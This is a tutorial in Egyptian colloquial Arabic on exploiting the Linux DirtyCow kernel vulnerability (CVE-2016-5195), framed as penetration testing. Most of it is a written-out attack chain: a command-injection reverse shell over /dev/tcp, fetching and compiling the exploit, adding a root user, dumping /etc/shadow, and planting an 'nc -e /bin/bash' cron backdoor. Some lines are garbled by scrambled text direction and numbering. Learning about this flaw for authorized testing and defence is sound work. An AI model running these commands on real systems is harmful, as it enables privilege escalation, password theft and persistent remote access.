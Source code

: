 تمام، هشرح لك "Linux Kernel Exploits DirtyCow (CVE-2016-5195)" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو DirtyCow (CVE-2016-5195)؟**

#### **الشرح العميق:**
DirtyCow هو ثغرة في نواة لينكس (Linux Kernel) اكتشفت سنة 2016 ورقمها CVE-2016-5195. الثغرة دي بتستغل مشكلة في طريقة إدارة الذاكرة (Memory Management) في النظام، وبالأخص في ميزة تسمى "Copy-on-Write" (COW). الفكرة إنك لو كنت مستخدم عادي (Low Privilege User)، تقدر تستغل الثغرة دي عشان تكتب في ملفات المفروض تكون للقراءة بس (Read-Only) أو محمية، زي ملفات النظام المهمة (`/etc/passwd` مثلًا). الهدف الأساسي هو تصعيد الصلاحيات (Privilege Escalation) لتصير `root`.

- **إزاي بتشتغل؟** الثغرة بتستغل حالة سباق (Race Condition) بين الكتابة في الذاكرة وتعديل الملفات، فتقدر تغير محتوى ملفات النظام.
- **الإصدارات المتأثرة:** Kernel من 2.6.22 لحد 4.8.3 (يعني أنظمة قديمة قبل التحديثات بتاعة 2016).

#### **الأدوات والأوامر العملية:**
1. **فحص إصدار الkernel:**
   - `uname -r` ->  يبقى متأثر.c`3.2.0-23-generic` لو رجع مثلًا
1. **تحميل Exploit:**
   - `wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirty.c`.
3. **تجميع الكود:**
   - `gcc -pthread dirty.c -o dirtycow`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة السجن، تدخل منه وتطلع الكبير بتاع الحبس! DirtyCow يعني بتستغل عيب في النظام عشان تكتب في حاجات المفروض ماتقربلهاش وتبقى root."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الثغرة دي خطيرة جدًا لأنها بتدي مستخدم عادي (زي `www-data` مثلًا) القدرة يتحكم في النظام كله عن طريق تعديل ملفات مهمة. يعني:
- **تصعيد صلاحيات:** تقدر تضيف نفسك كـ root أو تغير كلمات سر.
- **تدمير النظام:** لو عايز تخرب، تغير ملفات النظام الأساسية.
- **وصول دائم:** تضيف Backdoor عشان ترجع تاني.

في الـ Pentesting، لو لقيت سيرفر قديم متأثر بـ DirtyCow، ده يعني إنك ممكن تاخد root في دقايق من غير تعقيد.

#### **الأدوات والأوامر العملية:**
1. **تشغيل الـ Exploit:**
   - `./dirtycow`  .->root ويضيف مستخدم جديد بصلاحيات `/etc/passwd`  بيعدل ملف زي
1. **التحقق:**
   - `id` -> يبقى نجحت.`uid=0(root)` لو رجع 
   - ، 
1. **مثال يدوي:**
   - لو عندك Shell كـ `www-data`:
     - `echo "hacker:x:0:0:root:/root:/bin/bash" >> /etc/passwd` (عادةً ما ينفعش، بس DirtyCow بيخلّيه ينفع).

#### **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت مفتاح السجن في الزبالة، فتحت الباب وطلعت الباشا بتاع الكل! لو لقيتها، يبقى النظام في إيدك في ثواني."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم DirtyCow عشان تصعد من مستخدم عادي لـ root عن طريق تعديل ملفات النظام.
- **مثال واقعي:** لو وصلت لـ Shell كـ `www-data` على سيرفر قديم، تشغل الـ Exploit وتبقى root.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي DirtyCow، زي ما تكون لقيت عصاية سحرية في لعبة، تضرب بيها وتبقى الكبير بتاع الماتش في ثانية!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 -> لو وصلت لـ Shell، ابدأ.

#### **الخطوة 2: الوصول لـ Shell**
- لو لقيت ثغرة ويب (زي Command Injection):
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `www-data`.

#### **الخطوة 3: التحقق من الكernel**
- في الـ Shell:
  - `uname -r` -> لو رجع `3.16.0-38-generic` (مثلاً)، يبقى متأثر بـ DirtyCow.

#### **الخطوة 4: تحميل وتشغيل DirtyCow**
- انقل الـ Exploit للسيرفر:
  - في جهازك: `python3 -m http.server 80`.
  - في الـ Shell: `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
- جمّع الكود:
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
- شغله:
  - `./tmp/dirtycow` -> غالبًا بيضيف مستخدم جديد زي `firefart` بصلاحيات root.

#### **الخطوة 5: التحقق من التصعيد**
- `cat /etc/passwd` -> لو لقيت سطر زي `firefart:x:0:0::/:/bin/sh`.
- `su firefart` -> لو طلب كلمة سر (عادةً `firefart`)، ادخلها.
- `id` -> `uid=0(root)` -> نجحت.

#### **الخطوة 6: استغلال وتوثيق**
- كـ root:
  - `cat /etc/shadow` -> تسريب كلمات السر.
  - `echo "nc -e /bin/bash 192.168.1.100 9999" > /etc/cron.d/backdoor` -> Backdoor.
- سجل الإصدار المتأثر والخطوات في تقريرك.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! DirtyCow لما تلاقيها، يبقى النظام في جيبك في دقايق."

---

### **الخلاصة النهائية:**
DirtyCow (CVE-2016-5195) هي ثغرة خطيرة في نواة لينكس بتخلّيك تصعد من مستخدم عادي لـ root عن طريق استغلال عيب في الذاكرة. في الـ Pentesting، دور عليها في الأنظمة القديمة بـ `uname -r`، استخدم الـ Exploit عشان تاخد Shell كـ root، ووري العميل إن سيرفره زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بسهولة!
